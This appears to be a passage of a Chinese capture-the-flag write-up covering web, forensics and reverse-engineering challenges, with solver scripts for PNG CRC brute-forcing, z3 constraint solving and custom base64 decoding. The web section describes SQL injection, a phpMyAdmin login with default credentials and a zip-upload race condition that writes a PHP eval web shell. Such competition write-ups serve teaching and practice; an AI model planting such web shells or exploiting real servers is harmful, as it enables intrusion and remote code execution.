---------------- ./lib
---------------- ./LICENSE.txt
---------------- ./login.php
---------------- ./navigate_download.php
---------------- ./navigate_info.php
---------------- ./navigate.php
---------------- ./navigate.sql
---------------- ./navigate_upload.php
---------------- ./package.zip
---------------- ./plugins
---------------- ./private
---------------- ./README
---------------- ./themes
---------------- ./updates
---------------- ./web
----ia---------- ./bocai.html
----ia---------- ./bocai.png
---------------- ./I_want_capture_the_flag
chattr -ia bocai.*
rm -rf bocai.*
ls
I_want_capture_the_flag
LICENSE.txt
README
cache
cfg
crossdomain.xml
css
favicon.ico
images
img
index.html
index.php
js
lib
login.php
navigate.php
navigate.sql
navigate_download.php
navigate_info.php
navigate_upload.php
package.zip
plugins
private
themes
updates
web
./I_want_capture_the_flag
PCL{3a5eecXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

### easygo

下载附件 根据 gomod 检查到 github 仓库

https://github.com/KaanSK/golang-sqli-challenge

然后访问 发现 solution 

PostgreSQL 注入 在 juice 下

通过 solution 或者sqlmap 就可以获取到flag 在 select flag from super_secret_table 下

### easysql

dirsearch 扫描发现phpmyadmin，口令root，password到了后台



挨个登陆 发现其中一个有flag User=SuperF1@g&Pass=F1@g_1N_Th1S_UsEr_Y0u_Ge7_P@ssW0rd!!!



### 压缩包

解法1：

制作一个多文件的压缩包如下图：


将压缩包base64编码后通过content参数发包

通过条件竞争去访问xxada.php

[http://192.168.1.113](http://192.168.1.113/static/upload/b712fd7be07efcb74ee5a9a9e5eb6ceb/xxxada.php):8521/static/upload/1b4fd24ada6be9d55e67a6f8ab55c0c9/xxada.php



通过puts跨目录写shell到static/upload/下

```
<?php fputs(fopen('../shell.php','w'),'<?php @eval($_POST["cmd"])?');?>
```

http://192.168.1.110:8521/static/upload/shell.php



解法2：

构造一个畸形的压缩包或者解压到一半损坏的压缩包即可。







## misc

### 简单取证 

filescan发现secret.jpg



下载之后打开发现是base64编码,解码之后发现是倒置的zip

简单处理下

```
a=open('1.zip','rb')
b=a.read()[::-1]
c=open('2.zip','wb')
c.write(b)
```

发现要密码,最后在cmdscan里面发现密码



得到flag.txt,发现是每行是一个点的坐标

使用gnuplot画图



扫码得到flag

### Misc_water

发现给出的png文件结尾还有多余数据,很容易发现是一个jpg数据的倒置与一个png文件



简单的提取处理一下,得到三张图片


根据题目名称water,猜测是盲水印



得到压缩包密码:ZC4#QaWbW

得到一张奇怪的图片,010打开发现crc报错,而且根据图片内容很容易发现是高宽被修改



因此开始爆破png宽高,得到flag

```
import zlib
import struct
# 同时爆破宽度和高度
filename = "1.png"
with open(filename, 'rb') as f:
    all_b = f.read()
    data = bytearray(all_b[12:29])
    n = 4095
    for w in range(n):
        width = bytearray(struct.pack('>i', w))
        for h in range(n):
            height = bytearray(struct.pack('>i', h))
            for x in range(4):
                data[x+4] = width[x]
                data[x+8] = height[x]
            crc32result = zlib.crc32(data)
            #替换成图片的crc
            if crc32result == 0xe5c6e010:
                print("宽为：", end = '')
                print(width, end = ' ')
                print(int.from_bytes(width, byteorder='big'))
                print("高为：", end = '')
                print(height, end = ' ')
                print(int.from_bytes(height, byteorder='big'))
                break 
```



修改高宽后得到flag


### what_is_log

文件是scap后缀，搜了一下可以用sysdig去分析

看题目描述：某机器的mysql中存在一些秘密，通过log文件你能找到它输入的密码或者这个秘密吗(添加PCL格式提交)

所以得找mysql查询这个秘密的记录

这里用sysdir把记录导出成txt分析

```
sysdig -r flag2.scap > 1.txt
```

在vscode里面翻了一下，大概翻到了个查询表的结构



搜索这种表的特征，找到了一串数据，且带有seccess，符合题目语境



PCL{1555a651a13ec074ce725383214fd7cc}

### babybit

首先用OSFMount挂载镜像，然后用DiskGenius打开G盘：



把zip文件导出来，其实里边就是注册表的备份文件:



用Register Explorer导入注册表备份文件，bitlocker的加密开始时间位于SYSTEM:ControlSet001\Control\FVEStats\OscEncryptInit，加密结束时间则位于SYSTEM:ControlSet001\Control\FVEStats\OscEncryptComplete。

这里应该说是时间戳，把时间戳转为正常的date格式：



```
import datetime
timestamp = 132995782594427750 #132995786261823536
value = datetime.datetime (1601, 1, 1) + datetime.timedelta(seconds=timestamp/10000000) ### combine str 3 and 4
print(value.strftime('%Y-%m-%d %H:%M:%S'))

# 2022-06-13 07:17:39
# 2022-06-13 07:23:46
```

最后还需要把date的小时加8，因为注册表中时间戳为UTC+0，需要转成UTC+8，最后的flag：PCL{2022/6/13_15:17:39_2022/6/13_15:23:46}

## re

### baby_re

```
key = [0x00000056, 0x00000057, 0x00000058, 0x00000059]
key[0] ^= 0x47
key[1] ^= 0x32
key[2] ^= 0x11
key[3] ^= 0x12
enc = [119, 9, 40, 44, 106, 83, 126, 123, 33, 87, 113, 123, 112, 93, 125, 127, 41, 82, 44, 127, 39, 3, 126, 125, 119, 87, 47, 125, 33, 6, 44, 127, 112, 0, 126, 123, 115, 24]
flag = bytearray(enc)

for i in range(len(enc)):
    flag[i] ^= key[i % 4]

flag
```

### gocode

根据vm的opcode解析伪汇编指令，如下所示。

```
user input
convert input to bytearray
mov tmp[0], input[0]      
mov tmp[1], input[1]      
mov tmp[2], input[2]      
mov tmp[3], input[3]      
add tmp[1], tmp[2]        
mov tmp[2], 283
eq tmp[1], tmp[2]      input[1]+input[2] == 283
mov tmp[1], input[1]
mov tmp[2], input[2]
add tmp[0], tmp[1]
mul tmp[0], tmp[2]
sub tmp[0], tmp[3]
mov tmp[2], 30977
eq tmp[0], tmp[2]     (input[0]+input[1])*input[2]-input[3] == 30977
mov tmp[2], input[2]
mov tmp[0], 99
xor tmp[2], tmp[0]
mov tmp[0], input[0]
mul tmp[0], tmp[2]
sub tmp[0], tmp[1]
add tmp[0], tmp[3]
mov tmp[1], 8182
eq tmp[0], tmp[1]      input[0]*(input[2]^99) - input[1] + input[3] == 8182
mov tmp[1], input[1]
mov tmp[0], input[0]
mov tmp[2], input[2]
add tmp[1], tmp[0]
add tmp[1], tmp[2]
add tmp[1], tmp[3]
mov tmp[0], 542
eq tmp[1], tmp[0]       input[1]+input[0]+input[2]+input[3] == 542
mov tmp[1], input[1]
mov tmp[0], input[0]
mul tmp[0], tmp[3]
sub tmp[0], tmp[1]
add tmp[0], tmp[2]
mov tmp[3], 13105
eq tmp[0], tmp[3]       input[0]*input[3] - input[1] + input[2] == 13105
mov tmp[0], input[4]       
mov tmp[1], input[5]
mov tmp[2], input[6]
mov tmp[3], 99               [input[4], input[5], input[6], 99]
add tmp[0], tmp[3]           [input[4]+99, input[5], input[6], 99]
mov tmp[3], 104              [input[4]+99, input[5], input[6], 104]
xor tmp[0], tmp[3]           [(input[4]+99)^104, input[5], input[6], 104]
mov tmp[3], 338              [(input[4]+99)^104, input[5], input[6], 338]
eq tmp[0], tmp[3]      (input[4]+99)^104 == 338
mov tmp[3], 51               [(input[4]+99)^104, input[5], input[6], 51]
sub tmp[1], tmp[3]           [(input[4]+99)^104, input[5]-51, input[6], 51]
mov tmp[3], 99               [(input[4]+99)^104, input[5]-51, input[6], 99]
mul tmp[1], tmp[3]           [(input[4]+99)^104, (input[5]-51)*99, input[6], 99]
mov tmp[0], 1089             [1089, (input[5]-51)*99, input[6], 99]
eq tmp[0], tmp[1]      (input[5]-51)*99 == 1089
mov tmp[3], 99               
xor tmp[2], tmp[3]           [1089, (input[5]-51)*99, input[6]^99, 99]
mov tmp[3], 107
add tmp[2], tmp[3]           [1089, (input[5]-51)*99, input[6]^99 + 107, 107]
mov tmp[1], 270              [1089, 270, input[6]^99 + 107, 107]
eq tmp[2], tmp[1]      (input[6]^99) + 107 == 270
mov tmp[1], 158              [1089, 158, input[6]^99 + 107, 107]
mov tmp[0], input[7]         [input[7], 158, input[6]^99 + 107, 107]
eq tmp[0], tmp[1]      input[7] == 158
mov tmp[0], input[8]         
mov tmp[1], input[9]
mov tmp[2], input[10]
mov tmp[3], input[11]        [input[8], input[9], input[10], input[11]]
mul tmp[0], tmp[3]
mov tmp[3], 14030            [input[8]*input[11], input[9], input[10], 14030]
eq tmp[0], tmp[3]      input[8]*input[11] == 14030
mov tmp[0], input[8]
mov tmp[3], input[11]        [input[8], input[9], input[10], input[11]]
add tmp[0], tmp[1]
mul tmp[0], tmp[2]
sub tmp[0], tmp[3]
mov tmp[2], 26669            [(input[8]+input[9])*input[10]-input[11], input[9], 26669, input[11]]
eq tmp[0], tmp[2]      (input[8]+input[9])*input[10]/input[11] == 26669
mov tmp[2], input[10]        
mov tmp[0], 99               [99, input[9], input[10], input[11]]
xor tmp[2], tmp[0]
mov tmp[0], input[8]
mul tmp[0], tmp[2]
sub tmp[0], tmp[1]
add tmp[0], tmp[3]
mov tmp[1], 21               [input[8]*(input[10]^99)-input[9]+input[11], 21, (input[10]^99), input[11]]
eq tmp[0], tmp[1]        input[8]*(input[10]^99)-input[9]+input[11] == 21
mov tmp[1], input[9]
mov tmp[0], input[8]
mov tmp[2], input[10]        [input[8], input[9], input[10], input[11]]
add tmp[1], tmp[0]
add tmp[1], tmp[2]
add tmp[1], tmp[3]      
mov tmp[0], 430             [430, input[9]+input[8]+input[10]+input[11], input[10], input[11]]
eq tmp[1], tmp[0]       input[9]+input[8]+input[10]+input[11] == 430
mov tmp[1], input[9]
mov tmp[0], input[8]        [input[8], input[9], input[10], input[11]]
mul tmp[0], tmp[3]
sub tmp[0], tmp[1]
add tmp[0], tmp[2]
mov tmp[3], 14089           [input[8]*input[11] - input[9]+input[10], input[9], input[10], 14089]
eq tmp[0], tmp[3]     input[8]*input[11] - input[9]+input[10] == 14089
mov tmp[0], input[12]
mov tmp[1], input[13]
mov tmp[2], input[14]       
mov tmp[3], 99              [input[12], input[13], input[14], 99]
add tmp[0], tmp[3]
mov tmp[3], 104
xor tmp[0], tmp[3]
mov tmp[3], 250             [(input[12]+99)^104, input[13], input[14], 250]
eq tmp[0], tmp[3]    (input[12]+99)^104 == 250
mov tmp[3], 30             [(input[12]+99)^104, input[13], input[14], 30]
sub tmp[1], tmp[3]         [(input[12]+99)^104, input[13]-30, input[14], 30]
mov tmp[3], 99
mul tmp[1], tmp[3]         [(input[12]+99)^104, (input[13]-30)*99, input[14], 99]
mov tmp[0], 396            [396, (input[13]-30)*99, input[14], 99]
eq tmp[0], tmp[1]    (input[13]-30)*99 == 396
mov tmp[3], 99            
xor tmp[2], tmp[3]         [396, (input[13]-30)*99, input[14]^99, 99]
mov tmp[3], 107
add tmp[2], tmp[3]         
mov tmp[1], 131            [396, 131, (input[14]^99)+107, 107]
eq tmp[2], tmp[1]   (input[14]^99)+107 == 131
mov tmp[1], 71             
mov tmp[0], input[15]      [input[15], 71, (input[14]^99)+107, 107]
eq tmp[0], tmp[1]    input[15] == 71
index >= 374
```

首先检查输入格式，长度37，{}中有32个字符，之后按16进制转换为字节序列，再对转换得到的16个字节进行校验，用z3求解即可。脚本如下。

```
from z3 import *   

flag = ''
def solve(s):
    global flag
    if s.check() != sat:
        print('failed!')
        exit(0)

    m = s.model()
    for var in input:
        flag += hex(m[var].as_long())[2:]

if __name__ == "__main__":
    s = Solver()
    input = [BitVec(f"input{i}",8) for i in range(4)]
    s.add(input[1] + input[2] == 283,
        (input[0]+input[1])*input[2]-input[3] == 30977,
        input[0]*(input[2]^99) - input[1] + input[3] == 8182,
        input[1]+input[0]+input[2]+input[3] == 542,
        input[0]*input[3] - input[1] + input[2] == 13105,)
    solve(s)

    s = Solver()
    input = [BitVec(f"input{i}",8) for i in range(3)]
    s.add((input[1]-51)*99 == 1089,
        (input[0]+99)^104 == 338,
        (input[2]^99) + 107 == 270,)
    solve(s)

    # print(hex(158))
    flag += '9e'

    s = Solver()
    input = [BitVec(f"input{i}",8) for i in range(4)]
    s.add(input[0]*input[3] == 14030,
        (input[0]+input[1])*input[2]-input[3] == 26669,
        input[0]*(input[2]^99)-input[1]+input[3] == 21,
        input[1]+input[0]+input[2]+input[3] == 430,
        input[0]*input[3] - input[1]+input[2] == 14089,)
    solve(s)

    s = Solver()
    input = [BitVec(f"input{i}",8) for i in range(4)]
    s.add((input[0]+99)^104 == 250,
        (input[1]-30)*99 == 396,
        (input[2]^99)+107 == 131,
        input[3] == 71)
    solve(s)
    # bdcc4f46 d73ec0 9e e628633d 2f227b47
    print('PCL{'+flag+'}')
```

### rota

换表base64    dump出maps和box

```
Maps = bytearray(b'XiIzDuAoGlaK6JcjM3g/9YQmHBOsxn1hLZ4w7Tt0PV5pNqUFC+rE2dSfyvWe8kRb=')
sbox = [0x33, 0x34, 0x2C, 0x36, 0x1D, 0x12, 0x1E, 0x0C, 0x1A, 0x3C, 0x29, 0x10, 0x20, 0x14, 0x3D, 0x3B, 0x19, 0x08, 0x0E, 0x1F, 0x30, 0x05, 0x38, 0x03, 0x11, 0x1B, 0x17, 0x21, 0x2E, 0x04, 0x18, 0x23, 0x2B, 0x02, 0x27, 0x37, 0x1C, 0x24, 0x39, 0x3F, 0x35, 0x2D, 0x26, 0x13, 0x2A, 0x0A, 0x00, 0x07, 0x3E, 0x01, 0x28, 0x2F, 0x32, 0x22, 0x0D, 0x06, 0x25, 0x3A, 0x09, 0x0F, 0x16, 0x0B, 0x15, 0x31, 0x0C, 0x2C, 0x0D, 0x21, 0x22, 0x09, 0x02, 0x39, 0x31, 0x17, 0x1A, 0x33, 0x06, 0x24, 0x10, 0x04, 0x1B, 0x0B, 0x34, 0x12, 0x38, 0x27, 0x0E, 0x20, 0x2B, 0x2E, 0x00, 0x13, 0x3E, 0x3A, 0x05, 0x1E, 0x36, 0x08, 0x32, 0x29, 0x19, 0x23, 0x3D, 0x3B, 0x3C, 0x3F, 0x37, 0x30, 0x18, 0x16, 0x35, 0x25, 0x0A, 0x2D, 0x28, 0x26, 0x15, 0x11, 0x07, 0x1D, 0x2A, 0x0F, 0x1F, 0x14, 0x01, 0x1C, 0x03, 0x2F, 0x13, 0x0D, 0x35, 0x31, 0x07, 0x11, 0x1B, 0x23, 0x0B, 0x0C, 0x10, 0x25, 0x2B, 0x21, 0x33, 0x18, 0x27, 0x29, 0x02, 0x2F, 0x28, 0x30, 0x0E, 0x19, 0x3C, 0x08, 0x34, 0x20, 0x3D, 0x2E, 0x05, 0x15, 0x2C, 0x1C, 0x36, 0x22, 0x1E, 0x24, 0x38, 0x0A, 0x3F, 0x1A, 0x04, 0x26, 0x16, 0x2A, 0x3A, 0x1F, 0x2D, 0x32, 0x06, 0x37, 0x03, 0x3B, 0x00, 0x17, 0x1D, 0x12, 0x09, 0x01, 0x3E, 0x39, 0x0F, 0x14, 0x00, 0x00, 0x00, 0x3F, 0xFB, 0x7F, 0x00, 0x00, 0x04, 0x01, 0x00, 0x00, 0xFB, 0x7F, 0x00, 0x00, 0x6B, 0x73, 0x50, 0x68, 0x53, 0x2F, 0x33, 0x34, 0x4D, 0x58, 0x69, 0x66, 0x6A, 0x2B, 0x49, 0x62, 0x74, 0x6A, 0x75, 0x64, 0x32, 0x54, 0x69, 0x6B, 0x6A, 0x35, 0x48, 0x6B, 0x41, 0x37, 0x69, 0x54, 0x70, 0x62, 0x61, 0x4E, 0x45, 0x4C, 0x42, 0x65, 0x62, 0x4F, 0x61, 0x49, 0x6D, 0x00, 0x00, 0x00]
```

base64之后的加密

```
box1 = sbox[0:64]
box2 = sbox[64:128]
box3 = sbox[128:192]
idx_1, idx_2, idx_3 = sbox[192], sbox[193], sbox[194]

inp = bytearray(b"XzD+6/D+6/D+6/D+6/D+6/D+6/D+6/D+6/D+6/D+6/D=\x00")
print(len(inp))
out = bytearray([0] * 45)

for j in range(9):
    for i in range(5):
        idx = Maps.find(inp[j*5+i])
        if idx == -1: 
            idx = 0
        v12 = (idx_2 + box1[(idx_1 + idx) & 0x3f]) & 0x3f
        v14 = box3[(idx_3 + box2[v12]) & 0x3f]
        out[j*5+i] = Maps[v14]
        
        idx_1 = (idx_1 + 1) & 0x3F
print(idx_1)
out
```

逆推

```
box1 = sbox[0:64]
box2 = sbox[64:128]
box3 = sbox[128:192]

inp = bytearray(b"ksPhS/34MXifj+Ibtjud2Tikj5HkA7iTpbaNELBebOaIm")
print(len(inp))
out = bytearray([0] * 45)

for j in range(9):
    for i in range(5):
        index = 44 - (j*5+i)
        v14 = Maps.find(inp[index])
        v12 = box2.index(box3.index(v14))
        idx = (box1.index(v12) - index) & 0x3f

        out[index] = Maps[idx]


out
```

table replace之后decode

```python
import base64

baseMaps = b"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
newMaps = b"XiIzDuAoGlaK6JcjM3g/9YQmHBOsxn1hLZ4w7Tt0PV5pNqUFC+rE2dSfyvWe8kRb="
out = b'cAJ7BzX+6zHrHwnTc/i7Bz6f6t6EBQDvc/xfHt9d6S9='

btext = out.translate(out.maketrans(newMaps, baseMaps))
print(base64.b64decode(btext).decode())
```

### maze

简单dfs

import structure

```
typedef struct TreeNode {
    struct TreeNode* parant;
    struct TreeNode* left;
    struct TreeNode* right;
    _BYTE arg0;
    _BYTE arg1;
    _BYTE arg2;
    _BYTE pass_flag;
    _DWORD padding;
    
} Node;

typedef struct {
    char parent[3];
    char child[18];
} Map1;

typedef struct {
    char parent[3];
    char child[24];
} Map2;

typedef struct {
    char parent[3];
    char child[30];
} Map3;

typedef struct {
    char parent[3];
    char child[30];
} Map4;

typedef struct {
    char parent[3];
    char child[24];
} Map5;

typedef struct {
    char parent[3];
    char child[18];
} Map6;

typedef struct {
    Map1 maze1;
    Map2 maze2;
    Map3 maze3;
    Map4 maze4;
    Map5 maze5;
    Map6 maze5;
} MapsArray;
```

调起来整个链子create struct 拿到首末address xref逆推

```
import idaapi
import idc


nodeSize = ida_struct.get_struc_size(ida_struct.get_struc_id('TreeNode'))

def create_struct(baddr):
    ida_bytes.del_items(baddr, nodeSize, ida_bytes.DELIT_DELNAMES)
    
    return idc.create_struct(baddr, -1, 'TreeNode')

class MazeNode:
    def __init__(self, baseAddr): self.baseAddr = baseAddr
    def addr(self): return self.baseAddr
    def value(self): return ida_bytes.get_qword(self.baseAddr)
    def parent(self): return MazeNode(ida_bytes.get_qword(self.baseAddr))
    def left(self): return MazeNode(ida_bytes.get_qword(self.baseAddr + 8))
    def right(self): return MazeNode(ida_bytes.get_qword(self.baseAddr + 16))
    def arg0(self): return ida_bytes.get_byte(self.baseAddr + 24)
    def arg1(self): return ida_bytes.get_byte(self.baseAddr + 25)
    def arg2(self): return ida_bytes.get_byte(self.baseAddr + 26)
    def pass_flag(self): return ida_bytes.get_byte(self.baseAddr + 27)
    def padding(self): return ida_bytes.get_dword(self.baseAddr + 28)
    

baseAddr = 0x00156D850
parent = MazeNode(baseAddr)

def mazeHandler(p, flag, arr):
    addr = p.addr()
    create_struct(addr)
    
    if addr == 0x0156DFA0:
        print("find the flag: ", flag)
        return flag
    
    arr.append(addr)
    for item in [i for i in DataRefsTo(addr) if i not in arr]:
        ref = MazeNode(item)

        if (ref.parent().addr() == addr and ref.arg0() != 1):
            #print("parent", hex(addr), "->", hex(item))
            mazeHandler(ref, 'l'+flag, arr.copy())

        if (ref.left().addr() == addr and ref.arg1() != 1):
            #print("left", hex(addr), "->", hex(item))
            mazeHandler(ref, 'r'+flag, arr.copy())

        if (ref.right().addr() == addr and ref.arg2() != 1):
            #print("right", hex(addr), "->", hex(item))
            mazeHandler(ref, 't'+flag, arr.copy())

    return 

mazeHandler(parent, "", [])
print('stop')

```